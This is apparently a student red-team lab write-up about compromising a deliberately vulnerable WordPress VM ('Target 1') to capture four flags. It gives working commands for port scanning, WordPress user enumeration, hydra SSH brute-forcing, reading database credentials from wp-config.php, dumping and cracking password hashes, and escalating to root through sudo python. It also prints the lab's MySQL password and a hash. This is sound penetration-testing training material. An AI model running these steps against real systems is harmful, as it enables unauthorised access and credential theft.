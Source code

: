 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -A 192.168.1.110 
```
![nmap scan](./Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp Open ssh
  - Port 80/tcp Open http
  - Port 111/tcp Open rpcbind
  - Port 139/tcp netbios-ssn
  - Port 445/tcp netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Open Ports
  - Wordpress Scan
  - Weak Passwords
  - MySQL Database Access
  - MySql Data Exfiltration
  - Privilege Escalation


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Wpscan was used to enumerate users of Target 1's Wordpress site.
      ```
      wpscan http://192.168.1.110/wordpress/ --enumerate u
      ```
      ![enumerate users](./Images/enumerate_users.png)
      - Michael had a weak password that could have been guessed easily. Alternatively a tool such as hydra could be used to brute force the password.
      ```
      hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
      ```
      ![hydra](./Images/hydra.png)
      - After the discovery of michael's password accessing the Target 1 machine via ssh became possible.
      ```  
      ssh michael@192.168.1.110
      ```
      ![michael ssh](./Images/michaelSSH.png)
      - Flag1 can be found by moving into the `/var/www/html/` directory then viewing the `service.html` file using a command such as `cat` or `nano`.
      ```
      cd /var/www/html/
      cat service.html
      ```
      ![flag1](./Images/flag1.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Flag2 can be found using the `locate` command.
      ```
      locate flag2.txt
      ```
      ![locate flag2](./Images/locateFlag2.png)
      ```
      cd /var/www/
      cat flag2.txt
      ```
      ![flag2](./Images/flag2.png)
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Login credentials can be found by moving into the `/var/www/html/wordpress/` directory and viewing the `wp-config.php` file using a command such as `cat` or `nano`.
      ```
      cd /var/www/html/wordpress/
      cat wp-config.php
      ```
      ![MySQL login credentials](./Images/mysqlCredentials.png)
      - The login credentials can be used to login to the MySQL database.
      ```
      mysql -u root -p'R@v3nSecurity'
      ```
      ![MySQL login](./Images/mysqlLogin.png)
      - After logging in to the MySQL database and browsing through the various databases and tables flag3 can be found in the `wp_posts` table. _flag4 can also be found here._
      ```sql
      show databases;
      use wordpress;
      ```
      ![show databses and use wordpress](./Images/showDatabases.png)
      ```sql
      show tables;
      ```
      ![show tables](./Images/showTables.png)
      ```sql
      select * from wp_posts 
      ```
      ![flag3](./Images/flag3.png)
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Although flag4 can be found in the same location as flag3, there is an alternate method to finding it.
      - While still in the MySQL database the password hashes for michael and steven can be found in`wp_users`.
      
      ![password hashes](./Images/passwordHashes.png)
      - After discovering steven's password hash and exfiltrating it into a txt file John the Ripper can be used to crack the password hash.
      ```
      echo 'steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' > wp_hashes.txt
      john wp_hashes.txt
      ```
      ![steven](./Images/john.png)
      - Steven's credentials can be used to ssh back into the Target 1 machine.
      ```
      ssh steven@192.168.1.110
      ```
      ![steven SSH](./Images/stevenSSH.png)
      - By checking steven's privliges it is revealed that he has `sudo` priviliges for python
      ```
      sudo -l
      ```
      ![privileges](./Images/privileges.png)
      - Steven's python privileges can be use to escalate to root.
      ```
      sudo python -c 'import pty;pty.spawn("/bin/")'
      ```
      ![privilege escalation](./Images/privilegeEscalation.png)
      - As root the `locate` command can be used to find flag4.
      ```
      locate flag4.txt
      ```
      ![locate flag4](./Images/locateFlag4.png)
      ```
      cd /root/
      cat flag4.txt
      ```
      ![flag4](./Images/flag4.png)